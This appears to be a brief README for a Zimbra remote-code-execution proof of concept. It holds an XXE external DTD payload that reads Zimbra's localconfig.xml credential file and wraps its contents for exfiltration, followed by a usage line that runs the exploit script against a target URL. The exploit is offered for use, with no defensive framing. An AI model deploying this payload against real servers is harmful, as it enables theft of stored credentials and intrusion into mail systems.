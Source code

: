 ###Zimbra_RCE POC

demo.dtd
```xml
<!ENTITY % file SYSTEM "file:../conf/localconfig.xml">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
``` 
useage:
python zimbra_poc.py https://target.com

